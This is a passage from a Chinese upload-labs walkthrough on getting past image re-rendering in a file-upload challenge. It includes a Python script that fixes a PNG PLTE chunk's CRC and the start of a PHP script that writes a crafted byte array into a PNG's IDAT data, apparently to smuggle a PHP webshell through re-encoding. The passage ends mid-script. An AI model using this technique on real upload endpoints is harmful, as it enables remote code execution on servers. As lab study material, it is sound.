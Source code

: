     2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        ![image](../../../../assets/img/安全/实验/Misc/upload-labs/15.png)

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);



    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }
